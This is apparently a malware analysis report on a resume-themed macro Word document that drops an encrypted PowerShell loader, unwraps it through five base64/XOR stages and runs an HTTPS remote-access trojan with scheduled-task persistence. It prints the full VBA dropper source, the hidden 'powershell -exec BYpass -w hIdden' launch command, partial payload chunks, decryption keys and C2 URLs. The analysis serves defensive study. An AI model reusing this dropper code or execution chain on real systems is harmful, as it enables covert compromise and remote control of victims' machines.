In May 2026, I came across a macro-enabled Word document, EmployeeResumeForm.docm, hosted on the free-tier provider 42web[.]io and submitted to VirusTotal a few hours after creation. This report explains the document lure's construction, the five-stage PowerShell unwrap that hides its real payload, a scheduled task it installs for persistence, and the small custom HTTPS RAT that ultimately calls home.
-
The initial-access vector is a macro-enabled .docm that reconstructs an encrypted PowerShell loader on disk from a array, then chains five layers of base64 and XOR before the real RAT executes.
-
The implant beacons roughly every 30 seconds (20% jitter, about ±6 seconds) to hxxps://updatepowershellservice[.]42web[.]io/YE97Bw999zB87t1U8i.php, supports four task primitives (cmd, powershell, file upload, file download), and persists through a scheduled task pretending to be a Microsoft Edge update job
The observed file is a 73,837-byte Microsoft Word 2007+ macro-enabled document, served from hxxps://dxi24-5wj3s-lsk32-j2o3s-aks3e[.]42web[.]io/EmployeeResumeForm.docm and reached via a mailstat[.]us tracking redirector. The randomised-token subdomain and the mail-tracker URL together suggested the document was distributed by email, although I did not recover the original carrier message.

Figure 1: Lure Document Observed during analysis
The lure name, an employee resume form, is unusually specific. Resume themes are most often used to target HR and recruitment staff who routinely open attachments from unknown senders. I considered whether the buildInfo value baesystem in the implant's encrypted config (recovered later in this report) indicates active targeting of BAE Systems' recruitment workflow.

Figure 2: Employee Resume Form after Enabling Macro
The document metadata reveals some interesting information. The file lists Mighty Spider as both the Creator and Last Modified By, with Microsoft Office Word as the originating application and Normal.dotm as the template - the same handle in both fields suggests the author did not bother to scrub identifying attributes between revisions. Total edit time is one minute over three revisions, and the file was created at 02:16 UTC and last saved at 02:42 UTC on 20 May 2026, with VirusTotal first-seen at 05:14 UTC the same day - a tight three-hour create-to-submit window consistent with on-demand weaponisation rather than reuse of a stale template.

Figure 3: Lure Document Metadata
A .docm is an Office Open XML container, which is to say it is a ZIP archive. Unzipping it yields the usual OOXML scaffolding - word/document.xml, [Content_Types].xml, the docProps/ metadata folder - and one binary file that does not fit the XML pattern: word/vbaProject.bin. That single 60 KB blob is where every macro in the document lives.

Figure 4: Lure Document Internal Content Container
When Microsoft introduced OOXML in 2007, they kept the older Office binary format (a Compound File Binary, or "OLE structured storage" container) for macro storage and embedded the entire mini-filesystem unchanged inside the ZIP. So, vbaProject.bin is itself a structured archive: a PROJECT stream with project-level metadata, a dir stream listing the modules, and one stream per module (ThisDocument and Module1) each holding the original VBA source.
I decompressed the MS-OVBA block and printed a readable source dump resulting in around 870-line listing of what the .bin file represents.
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
- - - - - -
Private Sub Document_Open()
Module1.default
DelAllShapesInDoc
End Sub
Sub DelAllShapesInDoc()
Dim i As Long
For i = ActiveDocument.Shapes.Count To 1 Step -1
ActiveDocument.Shapes(i).Delete
Next i
End Sub
-------------------------------------------------------------------------------
VBA MACRO Module1.bas
in file:
C:\Users\Brian\Desktop\analysis\resumeform\work\unzip\word\vbaProject.bin
- OLE stream: 'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
- - - -
' Pure VBA version - no FileSystemObject required
Function enableCNFV(filePath As String) As Boolean
Dim folderPath As String
Dim parts As Variant
Dim currentPath As String
Dim i As Integer
Dim folderExists As Boolean
On Error GoTo ErrorHandler
' Get folder path from file path (remove filename)
If InStrRev(filePath, "") > 0 Then
folderPath = Left(filePath, InStrRev(filePath, "") - 1)
Else
folderPath = ""
End If
If folderPath = "" Then
enableCNFV = True
Exit Function
End If
parts = Split(folderPath, "")
currentPath = ""
' Handle drive letter (C:)
If Left(folderPath, 2) Like "[A-Za-z]:" Then
currentPath = parts(0)
i = 1
ElseIf Left(folderPath, 2) = "\" Then
' Handle UNC paths
currentPath = parts(0) & "" & parts(1)
i = 2
Else
i = 0
End If
' Create folders one level at a time
For i = i To UBound(parts)
If currentPath = "" Then
currentPath = parts(i)
Else
currentPath = currentPath & "" & parts(i)
End If
' Check if folder exists
On Error Resume Next
folderExists = (Len(Dir(currentPath, vbDirectory)) > 0)
On Error GoTo 0
' Create folder if it doesn't exist
If Not folderExists Then
MkDir currentPath
End If
Next i
enableCNFV = True
Exit Function
ErrorHandler:
enableCNFV = False
End Function
' Pure VBA write file
Function enableWFV(filePath As String, content As String) As
Boolean
Dim fileNum As Integer
On Error GoTo ErrorHandler
fileNum = FreeFile
Open filePath For Output As fileNum
Print #fileNum, content
Close fileNum
enableWFV = True
Exit Function
ErrorHandler:
enableWFV = False
End Function
' Main Sub - Equivalent to the shell.Popup and execution
Sub default()
Dim shell As Object
Dim filePath As String
Dim content As String
' Create Shell object for popup and running commands
Set shell = CreateObject("WScript.Shell")
' Step 1: Define path and content (MODIFY THESE)
filePath = "C:\Users\Public\Microsoft\default.ps1"
Dim payloadLines(35, 19) As String
payloadLines(0, 0) = "Error:
XjqnDgJF3V5x7nrSs3k3ZRIqlhUcMNIoL8BQ4LlNU2U3AZEkFSykTjHtVP+OWGx9"
payloadLines(0, 1) = "Error:
ABHhLwIGqC9gxwzgukFdZTgS4DMHAaM/Me1+9/lSRmYTDIMKGQbSMC/FZfTwVGth"
SHORTENED
payloadLines(35, 8) = "Error:
QB2GI0pLpxsi90nEqXViByELvQsEAJIKC54H8LJ0aG0bO7dTRjaUDD/KWp7kaXBE"
payloadLines(35, 9) = "Error:
CmH7XlJLwFYN917EqWtxbRYnsQ4vX9o9JMFcwqUzIV0PI6JMWw=="
content = ""
For i = 0 To 35
For j = 0 To 19
If payloadLines(i, j) <> "" Then
If content <> "" Then
content = content & vbCrLf & payloadLines(i, j)
Else
content = payloadLines(i, j)
End If
End If
Next j
Next i
' Step 2: Create folders
If enableCNFV(filePath) Then
' Step 3: Write file
If enableWFV(filePath, content) Then
' Step 4: Run command (equivalent to shell.Run)
' Parameters: Command, WindowStyle (0=hidden), Wait (True=wait for
completion)
Dim psChunks As Variant
psChunks = Array( _
"cmd.exe /c powershell.exe -NoP -exec BYpass -w hIdden -C $rukp =
'JG51bGwgPSAmIHsNCmZ1bmN0aW9uIEludm9rZS1FbnZpcm9ubWVudENoZWNrIHsNCltDbWRsZXRCaW5kaW5nKCldDQpwYXJhbSgNCltzd2l0Y2hdJFF1aWV0LA0KW3N3aXRjaF0kRGV0YWlsZWQNCikNCiR2bVByb2Nlc3NlcyA9IEAoDQondm13YXJldHJheScsDQondmJveHNlcnZpY2UnLA0KJ3Zib3h0cmF5JywNCid2bXNydmMnLA0KJ3ZtdXNydmMnLA0KJ3ZteG5ldCcNCikNCiRkZWJ1Z2dlclByb2Nlc3NlcyA9IEAoDQoneDY0ZGJnJywNCid4MzJkYmcnLA0KJ29sbHlkYmcnLA0KJ3dpbmRiZycsDQonaWRhJywNCidpZGE2NCcsDQonaWRhcScsDQonaWRhcTY0JywNCidpbW11bml0eWRlYnVnZ2VyJywNCidkbnNweScsDQonZG5zcHkteDg2JywNCidjaGVhdGVuZ2luZScsDQonY2hlYXRlbmdpbmUteDg2XzY0JywNCidkZTRkb3QnLA0KJ2hvb2tleHBsb3JlcicsDQonaWxzcHknLA0KJ2xvcmRwZScsDQoncGV0b29scycNCikNCiRmb3JlbnNpY1Byb2Nlc3NlcyA9IEAoDQoncHJvY21vbicsDQoncHJvY21vbjY0JywNCidwcm9jZXhwJywNCidwcm9jZXhwNjQnLA0KJ3dpcmVzaGFyaycsDQondHNoYXJrJywNCidkdW1wY2FwJywNCid3aW5kdW1wJywNCidmaWRkbGVyJywNCidmaWRkbGVyIGV2ZXJ5d2hlcmUnLA0KJ2J1cnBzdWl0ZScsDQondGNwdmlldycsDQondGNwdmlldzY0JywNCidhdXRvcnVucycsDQonYXV0b3J1bnNjJywNCidyZW",
_
SHORTENED
"dtb24nLA0KJ2ZpbGVtb24nLA0KJ3Byb2Nlc3NoYWNrZXInLA0KJ3N5c21vbicsDQoncGVzdHVkaW8nLA0KJ2RuZicsDQondm9sYXRpbGl0eScsDQonZnRraW1hZ2VyJywNCidhdXRvcHN5JywNCidyZXNvdXJjZWhhY2tlcicsDQondm1tYXAnLA0KJ3ZtbWFwNjQnLA0KJ3BvcnRtb24nLA0KJ3Byb2Nlc3NsYXNzbycNCikNCiRzdXNwaWNpb3VzUGF0dGVybnMgPSAoJHZtUHJvY2Vzc2VzICsgJGRlYnVnZ2VyUHJvY2Vzc2VzICsgJGZvcmVuc2ljUHJvY2Vzc2VzKSB8IFNvcnQtT2JqZWN0IC1VbmlxdWUNCiRhbGxQcm9jZXNzZXMgPSBHZXQtUHJvY2Vzcw0KJHN1c3BpY2lvdXNQcm9jZXNzZXMgPSBAKCkNCmZvcmVhY2ggKCRwcm9jZXNzIGluICRhbGxQcm9jZXNzZXMpIHsNCiRwcm9jZXNzTmFtZSA9ICRwcm9jZXNzLlByb2Nlc3NOYW1lLlRvTG93ZXIoKQ0KZm9yZWFjaCAoJHBhdHRlcm4gaW4gJHN1c3BpY2lvdXNQYXR0ZXJucykgew0KJHBhdHRlcm5Mb3dlciA9ICRwYXR0ZXJuLlRvTG93ZXIoKQ0KaWYgKCRwcm9jZXNzTmFtZSAtZXEgJHBhdHRlcm5Mb3dlciAtb3IgJHByb2Nlc3NOYW1lIC1saWtlICIqJHBhdHRlcm5Mb3dlcioiIC1vciAkcHJvY2Vzcy5OYW1lIC1saWtlICIqJHBhdHRlcm4qIikgew0KJGNhdGVnb3J5ID0gIiINCmlmICgkdm1Qcm9jZXNzZXMgLWNvbnRhaW5zICRwYXR0ZXJuKSB7ICRjYXRlZ29yeSA9ICJWaXJ0dWFsIE1hY2hpbmUiIH0NCmVsc2VpZiAoJGRlYnVnZ2VyUHJvY2Vzc2VzIC1jb250YWluccm9yQWN0aW9uIFN0b3ANCn0gY2F0Y2ggew0KfQ0KfQ==';
$rukp =
[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($rukp)); .
([ScriptBlock]::Create($rukp))" _
)
longCmd = psChunks(0) & psChunks(1) & psChunks(2) &
psChunks(3) & psChunks(4) & psChunks(5) & psChunks(6) &
psChunks(7)
shell.Run longCmd, 0, True
End If
End If
Set shell = Nothing
End Sub
Once the victim enables macros, the Document_Open handler in ThisDocument calls Module1.default and then runs DelAllShapesInDoc to walk ActiveDocument.Shapes and delete every shape on the page. The shape-wipe is a small but telling design choice. The lure's visible content disappears immediately after execution, removing the only obvious cue that the user would have noticed something change.
The reason why the author calls it after the loader fires could probably be treated as multi-purpose:
-
The victim clicked Enable Content expecting something to render. If the lure body was a "Document Preview / Enable editing to view full content" decoy graphic, wiping the shapes leaves them looking at a blank page. The natural human reaction is to close it, dismiss, move on. Meanwhile the loader has already dropped something and scheduled the recurring task.
-
If the user (or AutoRecover) saves the document after macros ran, the saved copy no longer contains the lure decoy or the "enable macros" prompt.
-
Sandbox screenshot defeat: Many automated sandboxes screenshot the document after detonation.
-
Defenders sometimes fingerprint lures on their embedded images (logo crops, decoy header art). Once the macro has run, those images are gone from the in-memory document object.
Module1.default is where the actual dropper logic lives. This file contains five steps that together rebuild an encrypted PowerShell loader on disk and hand execution to powershell.exe:
-
Instantiate a WScript.Shell COM object - the channel the macro will eventually use to spawn cmd.exe.
-
Declare the payload array: Dim payloadLines(35, 19) As String, with 710 of the 720 cells assigned literal strings of the form "Error: <base64 chunk>". The remaining ten cells are intentionally empty.
-
Reassemble the encrypted loader: a nested loop walks the 36 × 20 array in row-major order and concatenates the non-empty cells with vbCrLf into a single multi-line string - the body of the file that will become default.ps1.
-
Drop to disk: enableCNFV (a pure-VBA MkDir-based directory creator) ensures C:\Users\Public\Microsoft exists, then enableWFV (a pure-VBA Open ...For Output As fileNum + Print #fileNum writer) saves the assembled string to C:\Users\Public\Microsoft\default.ps1.
-
Spawn the loader: an eight-element psChunks array is concatenated into one long command line and handed to shell.Run longCmd, 0, True - window style 0 (hidden), wait flag True (blocking until the spawned process exits).
An explicit author comment Pure VBA version - no FileSystemObject required confirms that the dropper's evasion strategy is inconsistent across phases. For the file drop, the author sidesteps the COM-creation telemetry that AMSI providers and EDR hooks rely on by writing the file with native VBA primitives rather than Scripting.FileSystemObject or ADODB.Stream. While that effectively cloaks the file write, the evasion stops there: the subsequent execution path reverts to a heavily monitored COM scripting object (WScript.Shell) and leaves a clear behavioural footprint.
' Pure VBA version - no FileSystemObject required
Function enableCNFV(filePath As String) As Boolean
' ... uses native MkDir ...
End Function
' Pure VBA write file
Function enableWFV(filePath As String, content As String) As
Boolean
Dim fileNum As Integer
On Error GoTo ErrorHandler
fileNum = FreeFile ' <--- Native VBA file handle
Open filePath For Output As fileNum ' <--- Native VBA file open
Print #fileNum, content ' <--- Native VBA file write
Close fileNum
enableWFV = True
Exit Function
The stealth abruptly ends in Sub default. The author instantiates the exact category of COM object they took pains to avoid moments earlier - a Windows Script Host scripting object - and uses it to launch the PowerShell command line.
' Main Sub - Equivalent to the shell.Popup and execution
Sub default()
Dim shell As Object
Dim filePath As String
Dim content As String
' Create Shell object for popup and running commands
Set shell = CreateObject("WScript.Shell") ' <--- The noisy COM
instantiation
' ... [payload string array setup omitted] ...
' Step 4: Run command (equivalent to shell.Run)
' Parameters: Command, WindowStyle (0=hidden), Wait (True=wait for
completion)
Dim psChunks As Variant
psChunks = Array( _
"cmd.exe /c powershell.exe -NoP -exec BYpass -w hIdden -C $rukp =
...
)
longCmd = psChunks(0) & psChunks(1) & ...
shell.Run longCmd, 0, True ' <--- The highly monitored execution
Scripting.FileSystemObject (implemented in scrrun.dll) and WScript.Shell (implemented in wshom.ocx) are siblings in the Windows Script Host hierarchy. Both are instantiated through identical CreateObject calls and both surface through the same CoCreateInstance hooks and Sysmon image-load events that the file-write path was so carefully designed to avoid. The author's paranoia covers exactly one phase of the operation - the disk write - and abandons cover the moment the spawn happens. It is unclear why the author decided to take this path.
The concatenated longCmd resolves to cmd.exe /c powershell.exe -NoP -exec BYpass -w hIdden -C $rukp = '<base64>'; $rukp = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($rukp)); . ([ScriptBlock]::Create($rukp)). The mixed-case BYpass and hIdden flags are likely an attempt to slip past signatures that key on lowercase canonical forms.
longCmd = psChunks(0) & psChunks(1) & psChunks(2) & psChunks(3) & psChunks(4) & psChunks(5) & psChunks(6) & psChunks(7) shell.Run longCmd, 0, True
psChunks = Array( _ "cmd.exe /c powershell.exe -NoP -exec BYpass -w hIdden -C $rukp = 'JG51bGwgPSAmIHsNCmZ1bmN0aW9uIEludm9rZS1FbnZpcm9ubWVudENoZWNrIHsNCltDbWRsZXRCaW5kaW5nKCldDQpwYXJhbSgNCltzd2l0Y2hdJFF1aWV0LA0KW3N3aXRjaF0kRGV0YWlsZWQNCikNCiR2bVByb2Nlc3NlcyA9IEAoDQondm13YXJldHJheScsDQondmJveHNlcnZpY2UnLA0KJ3Zib3h0cmF5JywNCid2bXNydmMnLA0K...
In short, the document is a self-contained loader. When Document_Open fires, the macro reconstructs an encrypted PowerShell file on disk under a benign Public-folder path, builds a hidden child-process command line in several pieces to avoid linear string matching, and hands execution off to powershell.exe. From that point on the document itself does nothing further malicious - the dropped default.ps1 and the scheduled task carry the rest of the operation.
The macro leaves two artefacts behind, neither of them directly executable. The first is the file C:\Users\Public\Microsoft\default.ps1, whose every line begins with Error: and which, to a casual look, resembles a corrupted log file. The second is the in-memory PowerShell process that cmd.exe spawns, parameterised by the base64-encoded script body inside the $rukp variable on its command line. The file on disk is ciphertext. The script on the command line is the decryptor. The two are designed to fit together only at execution time.
To recover the malicious behaviour, I peeled away the wrappers in the order the malware itself would peel them. Between the base64 sitting on cmd.exe's command line and the final PowerShell HTTP RAT that beacons to the C2, there are five distinct unwrap operations. Each layer uses one of two primitives - a base64 decode, or an XOR against a mixed key - and each layer's output is the next layer's input:
-
Stage 1: outer cmdline base64
-
stage-2 PowerShell with Invoke-EnvironmentCheck + scheduled-task action
-
Stage 2: UTF-16LE -Enc base64 (the task's Argument)
-
$rukp = '<base64>'; iex wrapper
-
Stage 3: inner ASCII base64
-
decryptor: reads default.ps1, strips "Error:", base64+XOR, iex
-
Stage 4: default.ps1 XOR-decrypted with key:salt = E8/LNvsiT2w/IyTlSVyqPQ==:aYcZU4lHrxI=
-
mixed key 7a48d2657265e07e56a43db6c01b052f
-
yet another $rukp = '<base64>'; iex wrapper
-
Stage 5: inner base64
-
final HTTP RAT
The macro hands an eight-chunk concatenated command line to shell.Run, and the -C argument is base64-encoded PowerShell wrapped in a $rukp = '<b64>'; iex-style dispatcher. Decoding that base64 produces a ~5,800-byte script with two visible halves: the Invoke-EnvironmentCheck function (the 50+ process anti-analysis routine analysed in the next section) and a Register-ScheduledTask block that installs the recurring four-hour persistence task. Stage 1 is the script that runs once, immediately after macro detonation, and whose sole job is to gate execution and arrange for the rest of the chain to run later.

Figure 5: Partial Representation of the Stage 1
The Register-ScheduledTask call in stage 1 sets the task action's Argument to powershell.exe -NoP -exec BYpass -w hIdden -Enc <base64>.
Stage 2 is not a payload in its own right - it is a thin trampoline that decodes the next layer at run time, every four hours, for as long as the task persists.

Figure 6: Base64 Blob Decoded from Stage 1 $action
Decoding the base64 inside stage 2's $rukp exposes the actual decryption logic. The script reads C:\Users\Public\Microsoft\default.ps1 from disk, strips the ^\w+:\s prefix from every line (the Error: masquerade), base64-decodes the remaining ciphertext, and XORs the result against a 16-byte mixed key derived from a hardcoded key:salt pair E8/LNvsiT2w/IyTlSVyqPQ==:aYcZU4lHrxI=*.

Figure 7: Partial Representation of the Stage 3
Running stage 3's logic against the on-disk default.ps1 produces 34,069 bytes of plaintext. The mixed-key construction is straightforward: a 16-byte key is XORed byte-by-byte against an 8-byte salt cycled to length 16, which for the dropper's key/salt yields the hex value 7a48d2657265e07e56a43db6c01b052f. The resulting plaintext is not yet the RAT but another IEX-style dispatcher, the same pattern that has appeared at every layer above it. By this point the author has used three nested base64 wrappers and one XOR layer to hide a fourth base64 wrapper.

Figure 8: Partial Representation of the Stage 4
Decoding stage 4's inner base64 finally yields executable PowerShell that is not itself a wrapper. The output is a ~25 KB script containing Get-UniqueDeviceId, Get-WanIP, Process-TaskCommands, Load-Config, the $gServerURL configuration handle and the Global\SysInfoProject_ mutex initialization. This is the RAT that beacons to the C2.

Figure 9: Partial Representation of the Stage 5
The implant's configuration, however, is encrypted inside the stage-5 script using the same XOR-mixed-key construction as the dropper - a different key:salt pair, an extra colon-delimited ciphertext field, and a separate mixed key (hex 1341c5c2cb57fc169984487a5aa1bc89). Decrypting it produces a single JSON object containing the C2 URL hxxps://updatepowershellservice.42web[.]io/YE97Bw999zB87t1U8i.php*, the implant's buildInfo tag baesystem, the spoofed Chrome 141 / Edg 141* user agent, the singleton mutex GUID and the sleep parameters.
